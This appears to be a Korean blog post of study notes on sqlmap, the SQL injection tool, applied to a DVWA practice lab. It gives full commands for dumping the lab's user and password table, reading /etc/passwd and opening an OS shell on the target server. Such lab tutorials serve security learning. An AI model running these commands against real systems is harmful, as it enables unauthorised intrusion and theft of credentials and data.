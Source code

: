 ```yaml
---
layout: post
title: "Sqlmap 공부"
date: 2025-09-07 17:00:00 +0900
categories: [해킹 툴]
---
```


### 1. Sqlmap 개요

Sqlmap은 SQL Injection 취약점을 탐지하고 공격을 자동화하는 오픈소스 도구이다. 명령 줄 인터페이스(CLI) 기반으로 동작하며 데이터베이스 정보를 탈취하거나 서버의 운영체제 명령어까지 실행할 수 있는 강력한 기능을 갖추고 있다.

수동으로 하려면 매우 오래 걸리는 Blind SQL Injection과 같은 공격을 자동화하여 공격 시간을 획기적으로 단축시킨다.

---

### 2. 기본 사용법 및 옵션

#### **기본 스캔**
`-u` 옵션으로 취약점을 점검할 URL을 지정한다. Sqlmap이 테스트할 파라미터를 URL에 포함해야 한다.
```bash
sqlmap -u "http://[Target IP]/vulnerabilities/sqli/?id=1&Submit=Submit#"
```

#### **주요 옵션**
*   **--cookie="[COOKIE]"**: 인증이 필요한 페이지를 점검할 때 사용한다. 브라우저에서 복사한 쿠키 값을 입력한다.
*   **--dbs**: 공격 가능한 데이터베이스의 목록을 보여준다.
*   **-D [DB_NAME] --tables**: 특정 데이터베이스에 포함된 테이블 목록을 보여준다.
*   **-D [DB_NAME] -T [TABLE_NAME] --columns**: 특정 테이블에 포함된 컬럼 목록을 보여준다.
*   **-D [DB_NAME] -T [TABLE_NAME] -C [COLUMN_NAME] --dump**: 특정 컬럼의 데이터를 모두 추출하여 보여준다.
*   **--batch**: 스캔 과정에서 Sqlmap이 묻는 모든 질문에 기본값(Y)으로 자동 응답한다.

---

### 3. 사용 예시

Target 서버 `192.9.200.11`의 DVWA SQL Injection 페이지를 대상으로 데이터베이스 목록을 확인하고 사용자 정보를 탈취했다.

#### **데이터베이스 목록 확인**
```bash
sqlmap -u "http://192.9.200.11/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=..." --dbs
```
   ![SqlmapDbs](/assets/images/Sql_1.png)

#### **`users` 테이블 데이터 탈취**
위에서 확인한 `dvwa` 데이터베이스의 `users` 테이블에서 `user`, `password` 컬럼의 내용을 탈취한다.
```bash
sqlmap -u "..." --cookie="..." -D dvwa -T users -C user,password --dump
```
   ![SqlmapDump](/assets/images/Sql_2.png)

---

### 4. 파일 시스템 접근 및 OS 명령어 실행

데이터베이스 사용자가 충분한 권한(예: FILE 권한)을 가졌을 때 Sqlmap은 파일 시스템에 접근하거나 운영체제 쉘을 획득하는 기능을 제공한다.

#### **파일 시스템 접근 `--file-read`**
`--file-read` 옵션을 사용하면 서버의 로컬 파일을 직접 읽을 수 있다. 리눅스 시스템의 사용자 정보를 담고 있는 `/etc/passwd` 파일을 읽는 예시이다.
```bash
sqlmap -u "..." --cookie="..." --file-read "/etc/passwd" --batch
```

#### **운영체제 쉘 획득 (`--os-shell`)**
`--os-shell` 옵션은 Sqlmap의 가장 강력한 기능 중 하나로, 성공 시 대상 서버의 운영체제 쉘을 획득하여 직접 명령을 내릴 수 있다. Sqlmap은 이 과정에서 웹 서버의 쓰기 가능한 경로에 명령어 실행을 위한 작은 스크립트(Stager)를 업로드한다.
```bash
sqlmap -u "..." --cookie="..." --os-shell
```
   ![SqlmapOshell](/assets/images/Sql_3.png)

`os-shell` 세션에 성공적으로 진입하면 `whoami`, `ls -l` 등 원하는 시스템 명령어를 실행하여 서버를 직접 제어할 수 있다.

<hr class="short-rule">
